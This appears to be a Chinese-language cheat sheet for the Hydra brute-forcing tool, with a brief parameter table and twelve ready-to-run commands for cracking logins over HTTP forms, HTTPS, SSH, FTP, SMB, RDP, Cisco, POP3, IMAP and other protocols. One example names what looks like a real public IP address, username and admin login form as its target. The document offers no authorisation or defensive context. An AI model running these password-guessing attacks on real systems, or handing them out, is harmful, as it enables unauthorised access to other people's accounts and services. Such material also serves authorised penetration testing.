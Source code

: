 ## hydra九头蛇：暴力破解工具
hydra是一个支持众多协议的爆破工具。<br>

**参数详解**<br>
参数 | 用途
-l | 指定单个用户名，适合在知道用户名爆破用户名密码时使用
-L | 指定多个用户名，参数值为存储用户名的文件的路径(建议为绝对路径)


### 1、破解http post:
```shell
hydra -t 10 -l vaccigen -P /opt/fuzzDicts-master/passwordDict/top6000.txt -o out.txt -f -vV 52.196.234.51 http-post-form "/admin/index.php:account=^USER^&password=^PASS^:error" 
```
### 2、破解http get:
```shell
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```
### 3、破解https:
```shell
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 
```
### 4、破解ssh:
```shell
hydra 192.168.56.12 ssh -l user -P /root/Work/sshpasswd.list -t 6 -V -f
```
### 5、破解ftp:
```shell
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 
```
### 6、破解teamspeak： 
```shell
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 
```
### 7、破解cisco： 
```shell
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 
```
### 8、破解smb： 
```shell
hydra -l administrator -P pass.txt 10.36.16.18 smb 
```
### 9、破解pop3： 
```shell
hydra -l muts -P pass.txt my.pop3.mail pop3 
```
### 10、破解rdp： 
```shell
hydra ip rdp -l administrator -P pass.txt -V 
```
### 11、破解http-proxy： 
```shell
hydra -l admin -P pass.txt http-proxy://10.36.16.18 
```
### 12、破解imap: 
```shell
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```
